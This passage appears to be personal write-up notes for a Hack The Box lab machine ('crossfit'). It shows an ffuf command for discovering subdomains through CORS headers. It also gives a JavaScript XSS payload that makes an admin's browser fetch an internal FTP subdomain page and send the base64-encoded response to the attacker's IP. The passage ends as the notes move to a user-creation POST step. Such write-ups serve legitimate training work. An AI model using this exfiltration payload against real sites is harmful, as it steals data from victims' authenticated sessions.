 - FFUF command:	

		ffuf -mr "Access-Control-Allow-Origin:" -w /usr/share/dirb/wordlists/common.txt -H "Origin: http://FUZZ.crossfit.htb" -u http://gym-club.crossfit.htb/

![[Pasted image 20210331035910.png]]

### ftp.crossfit.htb
- This sub-domain only shows apache default page.
- no directories founnd using gobuster.

![[Pasted image 20210331041143.png]]

#### USING XSS TO WORK WITH ***ftp.crossfit.htb***

1. Now we need to access ftp.crossfit.htb via xss.
2.  We will make sure that using xss we make the admin user **download a js file** and then the js file will execute the necessary commands to `GET` the page and then **store the response in a variable ** and the remaining part of the script will ensure to send a connection back to our python server along with the response.
3.  AND THEN VIEWING THE RESPONSE IN FIREFOX WILL GIVE US AN IDEA OF HOW THE WEBPAGE 	ftp.crossfit.htb looks like in admin browser.

### JAVASCRIPT FILE FOR SIMPLE GET REQUEST.
```javascript
var target1 = 'http://ftp.crossfit.htb/'; 
var req3 = new XMLHttpRequest();
req3.open('GET',target1,false);
req3.send();
var response = req3.responseText;

/*attacker request*/
var attacker = 'http://10.10.14.47/result='+btoa(response);
var req2 = new XMLHttpRequest();
req2.open('GET',attacker,true);
req2.send();
```

> - `btoa(response)` is used to convert text to base64.
> - converting to base64 will help in retrieving all data,it also helps if their are some special characters.
 ### RETRIEVED PAGES
 
 #### index.html
 ![[Pasted image 20210331050106.png]]
 #### create.html
 ![[Pasted image 20210331050149.png]]
 
 ### POST REQUEST TO CREATE A NEW USER USING XSS
 